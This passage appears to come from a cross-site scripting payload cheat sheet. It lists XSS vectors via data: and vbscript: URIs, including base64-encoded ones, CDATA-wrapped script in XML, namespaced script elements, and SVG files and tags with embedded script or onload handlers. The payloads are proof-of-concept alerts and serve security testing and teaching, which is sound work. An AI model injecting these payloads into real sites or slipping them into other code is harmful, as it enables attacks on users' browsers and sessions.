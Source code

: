 XSS with data:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript: only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```
